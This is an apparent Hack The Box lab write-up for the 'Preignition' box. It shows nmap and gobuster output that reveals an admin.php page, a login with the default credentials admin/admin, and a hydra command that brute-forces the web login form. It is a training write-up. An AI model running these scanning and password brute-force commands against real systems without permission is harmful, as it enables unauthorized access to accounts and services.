 ```toc
```
# HTB Notes - Preignition #

+ **Date**: 12-4-2022
+ **Author**: Noah Soqui
+ **Tags**: #Web

## Intelligence Gathering ##

Scanning machine
+ `sudo nmap -sV -sC -O TARGET_IP`
+ Output:
``` Shell
Nmap scan report for 10.129.180.92
Host is up (0.043s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
```

Brute-force directories for php pages
+ `gobuster dir --url http://10.129.180.92/ --wordlist /usr/share/wordlists/dirb/big.txt -x php`
+ Output:
``` Shell
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.180.92/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/12/04 15:09:51 Starting gobuster in directory enumeration mode
===============================================================
/admin.php            (Status: 200) [Size: 999]
Progress: 40894 / 40940 (99.89%)===============================================================
2022/12/04 15:13:08 Finished
===============================================================
```

## Misconfiguration and Vulnerability Analysis  ##

Directories are brute-forcible with no rate limiting.

## Exploitation ##

Navigating to `/admin.php`
	+ Attempting to use default username `admin` and password `admin` 

Can also use hydra to brute-force:
``` Shell
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.129.72.193 http-post-form "/admin.php:username=^USER^&password=^PASS^:F=<form method=\"post"
```
+ Where the `:F` represents what will no longer be on the page after a successful login, and since the `<form method=` is present to collect the login credentials, after success it most likely will not be there anymore

## Post Exploitation ##

Default username `admin` with any password returns the flag

## Reporting ##

### Executive Summary ###

Finding the admin.php page is done quickly using <mark style="background: #BBFABBA6;">gobuster</mark> , from there the default username `admin` works. A simple box showing the directory setup that websites have.